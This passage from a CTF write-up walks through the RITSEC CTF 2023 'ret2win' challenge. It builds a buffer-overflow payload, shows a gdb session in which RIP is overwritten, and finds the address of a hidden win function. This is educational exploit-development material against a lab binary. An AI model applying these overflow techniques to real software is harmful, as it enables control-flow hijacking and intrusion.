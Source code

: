 **To overflow RIP register in 64-bit executable, we can use the following testing payload:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:46:22(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8 + 'C' * 6)"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC

gef➤  r
[...]
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC, now do some damage :) 

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x56              
$rbx   : 0x007fffffffdd68  →  0x007fffffffe0ef  →  "/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/r[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x007fffffffdc50  →  0x0000000000000001
$rbp   : 0x4242424242424242 ("BBBBBBBB"?)
$rsi   : 0x000000004052a0  →  "[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB[...]"
$rdi   : 0x007fffffffd6c0  →  0x007ffff7e14e70  →  <funlockfile+0> mov rdi, QWORD PTR [rdi+0x88]
$rip   : 0x434343434343    
$r8    : 0x000000004056df  →  0x0000000000000000
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x007fffffffdd78  →  0x007fffffffe128  →  "TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db[...]"
$r14   : 0x0               
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
[...]
```

This time, we successfully overflowed the RIP register with ***6 C's*** (`43` in hex).

Now we controlled the RIP register, let's ***change it's value to function `supersecrettoplevelfunction()`'s memory address!***

**To find it's address, we can use `p` command in `gdb`:**
```shell
gef➤  p supersecrettoplevelfunction
$1 = {<text variable, no debug info>} 0x401196 <supersecrettoplevelfunction>
```
